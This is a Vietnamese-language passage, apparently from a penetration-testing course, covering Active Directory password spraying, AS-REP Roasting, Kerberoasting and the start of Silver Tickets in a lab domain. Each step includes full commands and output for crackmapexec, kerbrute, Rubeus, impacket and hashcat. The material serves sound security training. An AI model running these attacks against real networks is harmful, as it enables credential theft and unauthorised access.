Tham số `-Pass` cho phép chúng ta đặt một mật khẩu duy nhất để kiểm thử, hoặc chúng ta có thể cung cấp một file wordlist bằng `-File`. Chúng ta cũng có thể kiểm thử các tài khoản admin bằng cách thêm cờ `-Admin`. PowerShell script này tự động xác định các domain user và spray mật khẩu đối với họ.

```
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> powershell -ep bypass
...

PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```

                  *Listing 10 - Sử dụng Spray-Passwords để tấn công các tài khoản người dùng*

Rất tốt! Password spraying đã thành công, cung cấp cho chúng ta hai bộ thông tin xác thực hợp lệ với mật khẩu Nexus123!.

Kiểu tấn công password spraying thứ hai đối với các user AD tận dụng SMB. Đây là một trong những phương pháp truyền thống của các cuộc tấn công mật khẩu trong AD và đi kèm với một số nhược điểm. Ví dụ, với mỗi lần xác thực, một kết nối SMB hoàn chỉnh phải được thiết lập rồi kết thúc. Do đó, kiểu tấn công này rất ồn ào vì tạo ra nhiều lưu lượng mạng. Nó cũng khá chậm so với các kỹ thuật khác.

Chúng ta có thể sử dụng `crackmapexec` trên Kali để thực hiện kiểu password spraying này. Chúng ta sẽ chọn giao thức `smb` và nhập địa chỉ IP của bất kỳ hệ thống nào đã join domain, chẳng hạn CLIENT75 (192.168.50.75). Sau đó, chúng ta có thể cung cấp danh sách hoặc một user đơn lẻ và mật khẩu cho các tham số `-u` và `-p`. Ngoài ra, chúng ta sẽ nhập tên domain cho `-d` và sử dụng tùy chọn `--continue-on-success` để tránh dừng lại khi gặp bộ thông tin xác thực hợp lệ đầu tiên. Trong ví dụ này, chúng ta sẽ tạo một file văn bản tên `users.txt` chứa một tập con các username trong domain là dave, jen và pete để spray mật khẩu Nexus123!.

```
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```

                      *Listing 11 - Sử dụng crackmapexec để tấn công các tài khoản người dùng*

Listing 11 cho thấy crackmapexec đã xác định được cùng hai bộ thông tin xác thực hợp lệ giống như `Spray-Passwords.ps1` trước đó. Bằng cách thêm dấu cộng hoặc trừ trước thông tin xác thực đã thử, `crackmapexec` cho biết mỗi thông tin đó có hợp lệ hay không.

Chúng ta cần lưu ý rằng crackmapexec không kiểm tra chính sách mật khẩu của domain trước khi bắt đầu password spraying. Do đó, chúng ta cần thận trọng để tránh khóa tài khoản người dùng khi sử dụng phương pháp này.

Tuy nhiên, một điểm cộng là đầu ra của crackmapexec không chỉ hiển thị thông tin xác thực có hợp lệ hay không, mà còn cho biết người dùng với thông tin xác thực đó có quyền quản trị trên hệ thống mục tiêu hay không. Ví dụ, dave là local admin trên CLIENT75. Hãy sử dụng crackmapexec với mật khẩu Flowers1 nhắm vào máy này.

```
kali@kali:~$ crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com                       
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
```

*Listing 12 - Kết quả crackmapexec cho thấy thông tin xác thực hợp lệ có quyền quản trị trên mục tiêu*

Listing 12 cho thấy crackmapexec đã thêm `Pwn3d!` vào kết quả đầu ra, cho biết dave có quyền quản trị trên hệ thống mục tiêu. Trong một bài đánh giá, đây là một tính năng rất hữu ích để xác định mức độ truy cập mà chúng ta có được mà không cần thực hiện thêm bước liệt kê nào.

Kiểu tấn công password spraying thứ ba mà chúng ta sẽ thảo luận dựa trên việc thu được một TGT. Ví dụ, sử dụng `kinit` trên hệ thống Linux, chúng ta có thể thu được và cache một Kerberos TGT. Để làm điều này, chúng ta cần cung cấp username và password. Nếu thông tin xác thực hợp lệ, chúng ta sẽ nhận được một TGT. Ưu điểm của kỹ thuật này là nó chỉ sử dụng hai gói UDP để xác định mật khẩu có hợp lệ hay không, vì nó chỉ gửi một AS-REQ và phân tích phản hồi.

Chúng ta có thể sử dụng Bash scripting hoặc bất kỳ ngôn ngữ lập trình nào để tự động hóa phương pháp này. May mắn thay, chúng ta cũng có thể sử dụng công cụ `kerbrute`, vốn triển khai kỹ thuật này để thực hiện password spraying. Vì công cụ này đa nền tảng, chúng ta có thể sử dụng nó trên cả Windows và Linux.

Hãy sử dụng phiên bản Windows trong `C:\Tools` để thực hiện cuộc tấn công này. Để tiến hành password spraying, chúng ta cần chỉ định lệnh `passwordspray` cùng với danh sách username và mật khẩu cần spray. Chúng ta cũng cần nhập domain corp.com làm tham số cho `-d`. Tương tự như trước, chúng ta sẽ tạo một file tên `usernames.txt` trong `C:\Tools` chứa các username pete, dave và jen.

```
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

                                 *Listing 13 - Sử dụng kerbrute để tấn công các tài khoản người dùng*

Rất tuyệt! Listing 13 cho thấy kerbrute đã xác nhận rằng mật khẩu Nexus123! là hợp lệ đối với pete và jen.

Nếu bạn gặp lỗi mạng, hãy đảm bảo rằng encoding của file `usernames.txt` là ANSI. Bạn có thể sử dụng chức năng **Save As** của Notepad để thay đổi encoding.

Đối với crackmapexec và kerbrute, chúng ta đã phải cung cấp danh sách username. Để thu được danh sách tất cả domain user, chúng ta có thể tận dụng các kỹ thuật đã học trong Module *Active Directory Introduction and Enumeration* hoặc sử dụng các chức năng liệt kê user tích hợp sẵn của cả hai công cụ.

Trong phần này, chúng ta đã khám phá các cách thực hiện tấn công mật khẩu trong bối cảnh AD. Chúng ta đã thảo luận và thực hành ba phương pháp khác nhau cho các cuộc tấn công password spraying. Những kỹ thuật này là một cách hiệu quả để thu được thông tin xác thực hợp lệ trong môi trường AD, đặc biệt khi không có ngưỡng khóa tài khoản được thiết lập trong chính sách tài khoản. Trong hai phần tiếp theo, chúng ta sẽ thực hiện các cuộc tấn công tận dụng việc crack hash và thường mang lại tỷ lệ thành công cao hơn so với password spraying.

---

## 2.2. AS-REP Roasting

---

Như chúng ta đã thảo luận, bước đầu tiên của quá trình xác thực thông qua Kerberos là gửi một AS-REQ. Dựa trên yêu cầu này, domain controller có thể xác thực xem quá trình xác thực có thành công hay không. Nếu thành công, domain controller sẽ phản hồi bằng một AS-REP chứa session key và TGT. Bước này cũng thường được gọi là Kerberos preauthentication và có tác dụng ngăn chặn việc đoán mật khẩu offline.

Nếu không có Kerberos preauthentication, kẻ tấn công có thể gửi một AS-REQ tới domain controller thay mặt cho bất kỳ AD user nào. Sau khi nhận được AS-REP từ domain controller, kẻ tấn công có thể thực hiện một cuộc tấn công mật khẩu offline đối với phần được mã hóa của phản hồi. Cuộc tấn công này được gọi là AS-REP Roasting.

Theo mặc định, tùy chọn tài khoản AD **Do not require Kerberos preauthentication** bị tắt, nghĩa là Kerberos preauthentication được thực hiện cho tất cả người dùng. Tuy nhiên, tùy chọn tài khoản này có thể được bật thủ công. Trong các bài đánh giá, chúng ta có thể gặp những tài khoản có tùy chọn này được bật vì một số ứng dụng và công nghệ yêu cầu nó để hoạt động bình thường.

Hãy thực hiện cuộc tấn công này trước từ máy Kali, sau đó trên Windows. Trên Kali, chúng ta có thể sử dụng `impacket-GetNPUsers` để thực hiện AS-REP roasting. Chúng ta cần cung cấp địa chỉ IP của domain controller cho tham số `-dc-ip`, tên file đầu ra để lưu AS-REP hash theo định dạng Hashcat cho `-outputfile`, và `-request` để yêu cầu TGT.

Cuối cùng, chúng ta cần chỉ định thông tin xác thực mục tiêu theo định dạng `domain/user`. Đây là user mà chúng ta sử dụng để xác thực. Trong ví dụ này, chúng ta sẽ sử dụng pete với mật khẩu Nexus123! từ phần trước. Lệnh đầy đủ được hiển thị bên dưới:

```
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

                                 *Listing 14 - Sử dụng GetNPUsers để thực hiện AS-REP roasting*

Listing 14 cho thấy dave có tùy chọn tài khoản người dùng **Do not require Kerberos preauthentication** được bật, nghĩa là tài khoản này dễ bị tấn công AS-REP Roasting.

Theo mặc định, định dạng hash đầu ra của `impacket-GetNPUsers` tương thích với Hashcat. Do đó, hãy kiểm tra mode chính xác cho AS-REP hash bằng cách grep từ khóa “Kerberos” trong phần trợ giúp của Hashcat.

```
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

                                             *Listing 15 - Xác định mode phù hợp cho Hashcat*

Kết quả của lệnh grep trong Listing 15 cho thấy mode chính xác cho AS-REP là **18200**.

Giờ đây chúng ta đã thu thập đầy đủ mọi thứ cần thiết để khởi chạy Hashcat và crack AS-REP hash. Hãy nhập mode 18200, file chứa AS-REP hash, wordlist `rockyou.txt`, rule file `best64.rule`, và `--force` để thực hiện quá trình crack trên Kali VM.

```
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
...
```

                                              *Listing 16 - Crack AS-REP hash bằng Hashcat*

Rất tốt! Hashcat đã crack thành công AS-REP hash. Listing 16 cho thấy user dave có mật khẩu là Flowers1.

Nếu bạn gặp lỗi Hashcat “Not enough allocatable device memory for this attack”, hãy tắt Kali VM và cấp thêm RAM cho nó. 4GB là đủ cho các ví dụ và bài thực hành trong Module này.

Như đã đề cập, chúng ta cũng có thể thực hiện AS-REP Roasting trên Windows. Chúng ta sẽ sử dụng Rubeus, một bộ công cụ cho các tương tác và khai thác Kerberos ở mức raw. Để thực hiện cuộc tấn công này, chúng ta kết nối tới CLIENT75 qua RDP với tư cách domain user jeff và mật khẩu HenchmanPutridBonbon11. Tiếp theo, chúng ta mở một cửa sổ PowerShell và chuyển tới thư mục C:\Tools, nơi có file Rubeus.exe.

Vì chúng ta thực hiện cuộc tấn công này với tư cách một domain user đã được pre-authenticated, chúng ta không cần cung cấp thêm bất kỳ tùy chọn nào khác cho Rubeus ngoài `asreproast`. Rubeus sẽ tự động xác định các tài khoản người dùng dễ bị tấn công. Chúng ta cũng thêm cờ `/nowrap` để ngăn việc thêm dòng mới vào các AS-REP hash thu được.

```
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2

[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

                               *Listing 17 - Sử dụng Rubeus để thu AS-REP hash của dave*

Listing 17 cho thấy Rubeus đã xác định dave dễ bị tấn công AS-REP Roasting và hiển thị AS-REP hash.

Tiếp theo, hãy sao chép AS-REP hash và dán nó vào một file văn bản tên `hashes.asreproast2` trong thư mục home của user kali. Giờ đây chúng ta có thể khởi chạy Hashcat một lần nữa để crack AS-REP hash.

```
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
$krb5asrep$dave@corp.com:ae43ca9011cc7e7b9e7f7e7279dd7f2e$7d4c59410de2984edf35053b7954e6dc9a0d16cb5be8e9dcacca88c3c13c4031abd71da16f476eb972506b4989e9aba2899c042e66792f33b119fab1837d94eb654883c6c3f2db6d4a8d44a8d9531c2661bda4dd231fa985d7003e91f804ecf5ffc0743333959470341032b146ab1dc9bd6b5e3f1c41bb02436d7181727d0c6444d250e255b7261370bc8d4d418c242abae9a83c8908387a12d91b40b39848222f72c61ded5349d984ffc6d2a06a3a5bc19ddff8a17ef5a22162baade9ca8e48dd2e87bb7a7ae0dbfe225d1e4a778408b4933a254c30460e4190c02588fbaded757aa87a:Flowers1
...
```

                                           *Listing 18 - Crack AS-REP hash đã được chỉnh sửa*

Tốt lắm! Hashcat đã crack thành công AS-REP hash.

Để xác định các user có tùy chọn tài khoản AD **Do not require Kerberos preauthentication** được bật, chúng ta có thể sử dụng hàm `Get-DomainUser` của PowerView với tùy chọn `-PreauthNotRequired` trên Windows. Trên Kali, chúng ta có thể sử dụng `impacket-GetNPUsers` như trong Listing 14 mà không cần các tùy chọn `-request` và `-outputfile`.

Giả sử chúng ta đang thực hiện một bài đánh giá mà không thể xác định bất kỳ AD user nào có tùy chọn **Do not require Kerberos preauthentication** được bật. Trong quá trình liệt kê, chúng ta nhận thấy rằng mình có quyền **GenericWrite** hoặc **GenericAll** trên một tài khoản AD user khác. Với các quyền này, chúng ta có thể đặt lại mật khẩu của họ, nhưng điều này sẽ khóa người dùng khỏi tài khoản. Chúng ta cũng có thể tận dụng các quyền này để chỉnh sửa giá trị **User Account Control** của người dùng để không yêu cầu Kerberos preauthentication. Cuộc tấn công này được gọi là **Targeted AS-REP Roasting**. Đáng chú ý, chúng ta nên đặt lại giá trị User Account Control của người dùng sau khi đã thu được hash.

Trong phần này, trước hết chúng ta đã khám phá lý thuyết đằng sau AS-REP Roasting. Sau đó, chúng ta đã thực hiện cuộc tấn công này trên Kali với `impacket-GetNPUsers` và trên Windows với Rubeus. Trong phần tiếp theo, chúng ta sẽ thực hiện một cuộc tấn công tương tự, nhưng thay vì lạm dụng việc thiếu Kerberos preauthentication, chúng ta sẽ nhắm vào các SPN.

---

## 2.3. Kerberoasting

---

Hãy nhắc lại cách giao thức Kerberos hoạt động. Chúng ta biết rằng khi một người dùng muốn truy cập một tài nguyên được host bởi một Service Principal Name (SPN), client sẽ yêu cầu một service ticket được domain controller tạo ra. Service ticket sau đó sẽ được application server giải mã và xác thực, vì nó được mã hóa bằng password hash của SPN.

Khi yêu cầu service ticket từ domain controller, sẽ không có kiểm tra nào được thực hiện để xác nhận liệu người dùng có quyền truy cập dịch vụ được host bởi SPN hay không.

Các kiểm tra này chỉ được thực hiện ở bước thứ hai khi kết nối tới chính dịch vụ đó. Điều này có nghĩa là nếu chúng ta biết SPN mà chúng ta muốn nhắm tới, chúng ta có thể yêu cầu một service ticket cho nó từ domain controller.

Service ticket được mã hóa bằng password hash của SPN. Nếu chúng ta có thể yêu cầu ticket và giải mã nó bằng brute force hoặc guessing, chúng ta có thể dùng thông tin này để crack mật khẩu dạng cleartext của service account. Kỹ thuật này được gọi là Kerberoasting.

Trong phần này, chúng ta sẽ lạm dụng một service ticket và cố gắng crack mật khẩu của service account. Hãy bắt đầu bằng việc kết nối tới CLIENT75 qua RDP với tư cách jeff và mật khẩu HenchmanPutridBonbon11.

Để thực hiện Kerberoasting, chúng ta sẽ sử dụng Rubeus một lần nữa. Chúng ta chỉ định lệnh `kerberoast` để khởi chạy kỹ thuật tấn công này. Ngoài ra, chúng ta sẽ cung cấp `hashes.kerberoast` làm tham số cho `/outfile` để lưu TGS-REP hash thu được. Vì chúng ta thực thi Rubeus với tư cách một authenticated domain user, công cụ sẽ xác định tất cả SPN được liên kết với một domain user.

```
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

                            *Listing 19 - Sử dụng Rubeus để thực hiện một Kerberoast attack*

Listing 19 cho thấy Rubeus đã xác định một user account dễ bị tấn công Kerberoasting và ghi hash vào file đầu ra.

Bây giờ, hãy sao chép `hashes.kerberoast` sang máy Kali của chúng ta. Sau đó, chúng ta có thể xem phần trợ giúp của Hashcat để tìm mode đúng nhằm crack TGS-REP hash.

```
kali@kali:~$ cat hashes.kerberoast
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...
...

kali@kali:~$ hashcat --help | grep -i "Kerberos"         
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

                                              *Listing 20 - Xem lại mode đúng của Hashcat*

Kết quả của lệnh thứ hai trong Listing 20 cho thấy **13100** là mode đúng để crack TGS-REP hash.

Giống như phần trước, chúng ta sẽ khởi chạy Hashcat với các tham số: mode 13100, `rockyou.txt` làm wordlist, `best64.rule` làm rule file, và `--force` khi thực hiện crack trên VM.

```
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940ad9dcf5dd5cd8e91a86d4ba0396db$f57066a4f4f8ff5d70df39b0c98ed7948a5db08d689b92446e600b49fd502dea39a8ed3b0b766e5cd40410464263557bc0e4025bfb92d89ba5c12c26c72232905dec4d060d3c8988945419ab4a7e7adec407d22bf6871d
...
d8a2033fc64622eaef566f4740659d2e520b17bd383a47da74b54048397a4aaf06093b95322ddb81ce63694e0d1a8fa974f4df071c461b65cbb3dbcaec65478798bc909bc94:Strawberry1
...
```

                                                              *Listing 21 - Crack TGS-REP hash*

Tuyệt! Chúng ta đã truy xuất thành công mật khẩu plaintext của user iis_service bằng cách thực hiện Kerberoasting.

Tiếp theo, hãy thực hiện Kerberoasting từ Linux. Chúng ta có thể sử dụng `impacket-GetUserSPNs` với IP của domain controller làm tham số cho `-dc-ip`. Vì máy Kali của chúng ta không join domain, chúng ta cũng phải cung cấp thông tin xác thực của domain user để thu TGS-REP hash. Như trước, chúng ta có thể dùng `-request` để lấy TGS và xuất ra định dạng tương thích cho Hashcat.

```
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               

[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```

              *Listing 22 - Sử dụng impacket-GetUserSPNs để thực hiện Kerberoasting trên Linux*

Listing 22 cho thấy chúng ta đã thu được TGS-REP hash thành công.

Nếu `impacket-GetUserSPNs` báo lỗi “KRB_AP_ERR_SKEW(Clock skew too great),” chúng ta cần đồng bộ thời gian của máy Kali với domain controller. Chúng ta có thể dùng `ntpdate` hoặc `rdate` để thực hiện.

Bây giờ, hãy lưu TGS-REP hash vào một file tên `hashes.kerberoast2` và crack nó bằng Hashcat như trước.

```
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec
...
a96a7e6e29aa173b401935f8f3a476cdbcca8f132e6cc8349dcc88fcd26854e334a2856c009bc76e4e24372c4db4d7f41a8be56e1b6a912c44dd259052299bac30de6a8d64f179caaa2b7ee87d5612cd5a4bb9f050ba565aa97941ccfd634b:Strawberry1
...
```

                                                        *Listing 23 - Crack TGS-REP hash*

Listing 23 cho thấy chúng ta có thể crack TGS-REP hash thành công một lần nữa, thu được cùng mật khẩu plaintext như trước.

Kỹ thuật này cực kỳ mạnh nếu domain chứa các service account có đặc quyền cao với mật khẩu yếu, điều này không hiếm trong nhiều tổ chức. Tuy nhiên, nếu SPN chạy trong ngữ cảnh của một computer account, một managed service account, hoặc một group-managed service account, mật khẩu sẽ được tạo ngẫu nhiên, phức tạp và dài 120 ký tự, khiến việc crack trở nên không khả thi. Điều tương tự cũng đúng với tài khoản người dùng krbtgt đóng vai trò service account cho KDC. Do đó, khả năng thực hiện Kerberoast thành công với các SPN chạy trong ngữ cảnh user account sẽ cao hơn nhiều.

Giả sử chúng ta đang thực hiện một bài đánh giá và nhận thấy rằng mình có quyền GenericWrite hoặc GenericAll trên một AD user account khác. Như đã nêu, chúng ta có thể đặt lại mật khẩu của người dùng, nhưng điều này có thể gây nghi ngờ. Tuy nhiên, chúng ta cũng có thể đặt một SPN cho người dùng, kerberoast tài khoản đó, và crack password hash trong một cuộc tấn công gọi là targeted Kerberoasting. Chúng ta lưu ý rằng trong một bài đánh giá, chúng ta nên xóa SPN sau khi đã thu được hash để tránh thêm bất kỳ lỗ hổng tiềm năng nào vào hạ tầng của khách hàng.

Chúng ta đã đề cập cách một SPN có thể bị lạm dụng để thu một TGS-REP hash và cách crack nó. Trong phần tiếp theo, chúng ta sẽ khám phá một cuộc tấn công tận dụng một TGS giả mạo.

---

## 2.4. Silver Tickets

---

Trong phần trước, chúng ta đã thu thập và crack một TGS-REP hash để lấy được mật khẩu plaintext của một SPN. Trong phần này, chúng ta sẽ đi xa hơn một bước và tự giả mạo (forge) các service ticket của chính mình.

Nhớ lại cơ chế hoạt động bên trong của xác thực Kerberos, ứng dụng trên server chạy trong ngữ cảnh của service account sẽ kiểm tra quyền của người dùng dựa trên các group membership được chứa trong service ticket. Tuy nhiên, user và group permission trong service ticket không được ứng dụng xác minh trong phần lớn các môi trường. Trong trường hợp này, ứng dụng sẽ tin tưởng một cách “mù quáng” vào tính toàn vẹn của service ticket vì nó được mã hóa bằng một password hash mà theo lý thuyết chỉ service account và domain controller biết.

Privileged Account Certificate (PAC) validation là một quy trình xác minh tùy chọn giữa ứng dụng SPN và domain controller. Nếu được bật, người dùng đang xác thực tới dịch vụ và các đặc quyền của họ sẽ được domain controller xác thực. May mắn cho kỹ thuật tấn công này, các ứng dụng dịch vụ hiếm khi thực hiện PAC validation.

Ví dụ, nếu chúng ta xác thực tới một IIS server đang chạy trong ngữ cảnh của service account iis_service, ứng dụng IIS sẽ xác định chúng ta có những quyền nào trên IIS server tùy theo các group membership có mặt trong service ticket.

Với mật khẩu của service account hoặc NTLM hash tương ứng trong tay, chúng ta có thể giả mạo một service ticket của riêng mình để truy cập tài nguyên mục tiêu (trong ví dụ của chúng ta là ứng dụng IIS) với bất kỳ quyền nào mà chúng ta muốn. Ticket tự tạo này được gọi là một silver ticket và nếu service principal name được dùng trên nhiều server, silver ticket có thể được tận dụng để tấn công tất cả các server đó.

Trong ví dụ của phần này, chúng ta sẽ tạo một silver ticket để truy cập một tài nguyên HTTP SPN. Như chúng ta đã xác định trong phần trước, user account iis_service được ánh xạ tới một HTTP SPN. Do đó, password hash của user account được dùng để tạo service ticket cho nó. Với mục đích của ví dụ này, giả sử rằng chúng ta đã xác định iis_service có một session đang hoạt động trên CLIENT75.

Nhìn chung, chúng ta cần thu thập ba mảnh thông tin sau để tạo một silver ticket:

- SPN password hash
- Domain SID
- Target SPN

Hãy đi thẳng vào cuộc tấn công bằng cách kết nối tới CLIENT75 qua RDP với tư cách jeff và mật khẩu HenchmanPutridBonbon11.

Trước tiên, hãy xác nhận rằng user hiện tại của chúng ta không có quyền truy cập tài nguyên của HTTP SPN được ánh xạ tới iis_service. Để làm điều đó, chúng ta sẽ dùng `iwr` và thêm `-UseDefaultCredentials` để sử dụng thông tin xác thực của user hiện tại khi gửi web request.

```
PS C:\Users\jeff> iwr -UseDefaultCredentials http://web04
iwr :
401 - Unauthorized: Access is denied due to invalid credentials.
Server Error

  401 - Unauthorized: Access is denied due to invalid credentials.
  You do not have permission to view this directory or page using the credentials that you supplied.

At line:1 char:1
+ iwr -UseBasicParsing -UseDefaultCredentials http://web04
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebExc
   eption
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
```

